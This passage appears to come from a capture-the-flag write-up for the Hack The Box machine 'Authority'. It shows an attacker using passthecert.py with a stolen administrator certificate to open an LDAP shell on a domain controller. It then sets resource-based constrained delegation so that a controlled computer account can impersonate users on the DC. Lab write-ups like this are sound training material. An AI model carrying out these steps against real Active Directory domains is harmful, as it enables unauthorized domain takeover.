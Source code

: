 Now we can use the tool to give the computer account we control, namely `FAKECOMPUTER$`, te RBCD (Resource-Based Constrained Delegation), or the delegation rights over the DC.

`python3 ./Python/passthecert.py -dc-ip 10.10.11.222 -domain 'authority.htb' -port 636 -action ldap-shell -crt ./administrator.crt -key ./administrator.key`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands

# help

 add_computer computer [password] [nospns] - Adds a new computer to the domain with the specified password. If nospns is specified, computer will be created with only a single necessary HOST SPN. Requires LDAPS.
 rename_computer current_name new_name - Sets the SAMAccountName attribute on a computer object to a new value.
 add_user new_user [parent] - Creates a new user.
 add_user_to_group user group - Adds a user to a group. ←
 change_password user [password] - Attempt to change a given user's password. Requires LDAPS.
 clear_rbcd target - Clear the resource based constrained delegation configuration information.
 disable_account user - Disable the user's account.
 enable_account user - Enable the user's account.
 dump - Dumps the domain.
 search query [attributes,] - Search users and groups by name, distinguishedName and sAMAccountName.
 get_user_groups user - Retrieves all groups this user is a member of.
 get_group_users group - Retrieves all members of a group.
 get_laps_password computer - Retrieves the LAPS passwords associated with a given computer (sAMAccountName).
 grant_control target grantee - Grant full control of a given target object (sAMAccountName) to the grantee (sAMAccountName).
 set_dontreqpreauth user true/false - Set the don't require pre-authentication flag to true or false.
 set_rbcd target grantee - Grant the grantee (sAMAccountName) the ability to perform RBCD to the target (sAMAccountName).
 start_tls - Send a StartTLS command to upgrade from LDAP to LDAPS. Use this to bypass channel binding for operations necessitating an encrypted channel.
 write_gpo_dacl user gpoSID - Write a full control ACE to the gpo for the given user. The gpoSID must be entered surrounding by {}.
 whoami - get connected user
 dirsync - Dirsync requested attributes
 exit - Terminates this session.
```
```
# set_rbcd AUTHORITY$ FAKECOMPUTER$
Found Target DN: CN=AUTHORITY,OU=Domain Controllers,DC=authority,DC=htb
Target SID: S-1-5-21-622327497-3269355298-2248959698-1000

Found Grantee DN: CN=FAKECOMPUTER,CN=Computers,DC=authority,DC=htb
Grantee SID: S-1-5-21-622327497-3269355298-2248959698-11602
Delegation rights modified successfully!
FAKECOMPUTER$ can now impersonate users on AUTHORITY$ via S4U2Proxy ←
```
